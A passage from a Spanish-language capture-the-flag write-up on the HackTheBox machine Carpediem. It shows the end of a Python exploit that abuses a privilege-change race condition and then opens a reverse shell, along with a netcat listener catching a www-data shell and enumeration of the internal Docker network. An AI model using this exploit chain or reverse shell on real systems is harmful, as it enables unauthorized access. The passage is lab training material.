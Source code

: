 ```python

		# register
		user = register(s)
		# login
		login(s, user)
		
		# change account_type value
		user_id = 0
		change_priv_thread = False
		while not change_priv_thread:
			change_priv_thread = threading.Thread(target=change_privileges, args=(s, user, user_id))
			change_priv_thread.start()
			user_id += 1

		# get reverse shell
		reverse_shell(s)

	except Exception as e:
		print('[x] %s' % e); sys.exit(1)


if __name__ == '__main__':
	request()
```

> Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tools_Carpediem/rev_www-data.6/www-data_6.py)
{: .prompt-info}

Aplicando los pasos anteriores nos logramos conectar como el usuario `www-data`:

```console
❯ python3 www-data_6.py 10.10.14.10 4444
Open port 4444 to receive the shell (g.e /usr/bin/nc -lvnp 4444)
Press any key to continue...

───────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.167.
Ncat: Connection from 10.10.11.167:55140.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3c371615b7aa:/var/www/html/portal/uploads$
```

Al realizar una enumeración básica encontramos que no estamos en la máquina objetivo y nos encontramos en otra red:

```console
www-data@3c371615b7aa:/var/www/html/portal$ hostname -I
172.17.0.6 
www-data@3c371615b7aa:/var/www/html/portal$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.3      mysql a5004fe641ca
172.17.0.6      3c371615b7aa
```
